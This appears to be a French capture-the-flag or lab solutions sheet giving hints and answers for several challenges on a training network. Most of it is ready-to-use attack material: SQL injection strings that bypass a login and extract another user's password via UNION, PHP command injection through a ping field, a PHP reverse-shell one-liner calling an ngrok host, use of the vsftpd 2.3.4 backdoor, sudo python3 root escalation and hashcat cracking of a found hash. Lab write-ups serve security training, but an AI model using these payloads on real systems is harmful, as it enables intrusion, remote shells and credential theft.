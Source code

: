 # Injection SQL 1 - Passer le login

mettre " pour avoir une erreur


* Solution :
    Mettre en username : " OR 1=1 OR ""="

Mais on est login en tant que "admin", pas l'autre user !

* Indice 1 :
    Injection SQL

* Indice 2 : 
    SELECT * FROM data.users WHERE username = "$username" AND password="$password"

# Injection SQL 2 - Récupérer le mot de passe de l'autre utilisateur

* Indice 1 : 
    SELECT * FROM data.users WHERE username = "$username" AND password="$password"
    (dur sans connaître le nom de la base !)

SELECT * FROM data.users WHERE username = "a" AND password="" UNION SELECT 1,password as username,2 FROM data.users WHERE username!="admin"

* Solution :

    Mettre en user : (n'importe quoi)

    Mettre en mdp : " UNION SELECT 1,password as username,2 FROM data.users WHERE username!="admin

# RCE PHP - Ping

* Solution :

    ;ls
    ;whoami

reverse shell : https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

nc -l -p 12345 

ngrok tcp 12345

php -r '$sock=fsockopen("2.tcp.ngrok.io",15705);exec("/bin/sh -i <&3 >&3 2>&3");'

upgrade : 
python3 -c 'import pty;pty.spawn("/bin/bash")';

# vstfp:2.3.4 backdoor

* Solution :

    ftp 10.1.0.188

    Connected to 10.1.0.188.
    220 (vsFTPd 2.3.4)
    Name (10.1.0.188:root): ANYTHINGHERE:)
    331 Please specify the password.
    Password:
    ^C
    421 Service not available, remote server has closed connection


    nc -vn 10.1.0.188 6200

    Connection to 10.1.0.188 6200 port \[tcp/*\] succeeded!


    ls ~

    flag.txt


    cat ~/flag.txt


# PrivEsc : Sudo
sudo -l

User www-data may run the following commands on machine1:
    (root) NOPASSWD: /usr/bin/python3

* Solution :
    sudo python3 -c "import os;os.system('whoami')"
    sudo python3 -c "import os;os.system('bash')"

# Hash root
ls ~

pense_bete.txt

cat ~/pense_bete.txt

Pense-bête pour le mdp root de l'autre machine:

dc15d3f5ab9656bc55f7a2f5d1e3a0a5

* Solution :

    hashcat -m0 -O flag /usr/share/wordlists/rockyou.txt

    (hashcat -m0 --show flag)
